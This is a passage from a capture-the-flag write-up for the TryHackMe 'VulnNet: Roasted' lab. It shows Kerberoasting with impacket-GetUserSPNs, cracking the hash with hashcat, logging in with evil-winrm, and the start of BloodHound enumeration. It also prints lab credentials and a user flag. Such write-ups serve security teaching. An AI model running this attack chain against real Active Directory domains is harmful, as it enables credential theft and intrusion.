 * as now we have a valid creds we can try to get a shell.
* but we cannot log in with any of the methods like psexec, smbexec, evil-winrm or RDP.
* … so what can we do now? Well, since these credentials are supposedly valid in the AD domain, we can try to perform a Kerberoasting attack.

```bash
impacket-GetUserSPNs "vulnnet-rst.local/t-skid:tj072889*" -dc-ip 10.10.254.70 -request
```

![](2025-05-31-vulnnet-roasted-8.png)

* got a KRB5 TGS Hash for an service account named `enterprise-core-vn`.
* cracked this hash with hashcat.

```bash
hashcat hash ../opt/rockyou.txt
```

![](2025-05-31-vulnnet-roasted-9.png)

* thus creds are `enterprise-core-vn:ry=ibfkfv,s6h,`
* now that we have another valid creds, we can again try to get a shell with same old methods.
* and this time it worked with evil-winrm and we got successful login.

```bash
┌──(kali㉿kali)-[~/Desktop/vulnnetroasted]
└─$ evil-winrm -i 10.10.254.70 -u enterprise-core-vn                         
Enter Password: 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
 
*Evil-WinRM* PS C:\Users\enterprise-core-vn\Documents> whoami
vulnnet-rst\enterprise-core-vn
```

* thus we got our user flag from user desktop.

```bash
*Evil-WinRM* PS C:\Users\enterprise-core-vn\desktop> type user.txt
THM{726b7c0baaac1455d05c827b5561f4ed}
```

## Privilege Escalation

* now as we are a user on target domain we can using 2 methods.
  1. standard windows privilege escalation checklist.
  2. domain enumeration.
* as we are on active directory i will go with 2.
* thus we will collect data for bloodhound and next view it in a graphical manner.
* we did this remotely using [bloodhound.py](https://github.com/fox-it/BloodHound.py)
